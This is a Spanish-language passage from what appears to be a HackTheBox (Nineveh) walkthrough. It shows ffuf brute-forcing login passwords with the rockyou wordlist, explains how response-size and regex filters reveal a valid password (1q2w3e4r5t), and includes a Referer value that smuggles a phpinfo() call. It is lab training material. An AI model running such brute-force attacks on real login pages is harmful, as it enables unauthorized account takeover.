 ```
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
 :: Header           : Cookie: PHPSESSID=9tb48ff5tnvbtkk65nrt8p8884
 :: Header           : Connection: keep-alive
 :: Header           : Cache-Control: max-age=0
 :: Header           : Origin: http://10.10.10.43
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Referer: http://10.10.10.43/department/login.php
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1639
________________________________________________

1q2w3e4r5t              [Status: 302, Size: 1706, Words: 444, Lines: 60, Duration: 140ms]
```

El ejemplo mostrado hace que cada palabra de la wordlist (rockyou.txt) sustituya FUZZ en el campo password, enviando múltiples intentos de inicio de sesión contra el usuario definido en la petición (username=admin).

El parámetro -fs 0,1639 sirve para filtrar respuestas que tienen siempre el mismo tamaño (páginas de error genéricas), mostrando solo aquellas que difieren. Gracias a este filtro, entre miles de intentos, ffuf destaca el resultado que provoca una respuesta distinta.

En la salida se observa que con la contraseña 1q2w3e4r5t la respuesta cambia: devuelve un 302 (redirección) y un tamaño diferente. Esto indica que la contraseña es válida y el sistema permitió el acceso.

### Fuzzing para detectar una palabra en específico

En este ejemplo se utiliza ffuf para probar contraseñas, pero en lugar de filtrar por el tamaño de la respuesta (-fs), se emplea el parámetro -fr, que permite filtrar por una palabra o expresión regular contenida en la respuesta.

```
┌──(root㉿nptg)-[/home/…/Documentos/HTB/Nineveh/content]
└─# ffuf -w /usr/share/wordlists/rockyou.txt -k -request requestdb.txt -fr "Incorrect"                     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://nineveh.htb/db/index.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Referer: https://nineveh.htb/db/index.php?arg=1;%20phpinfo()
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Connection: keep-alive
```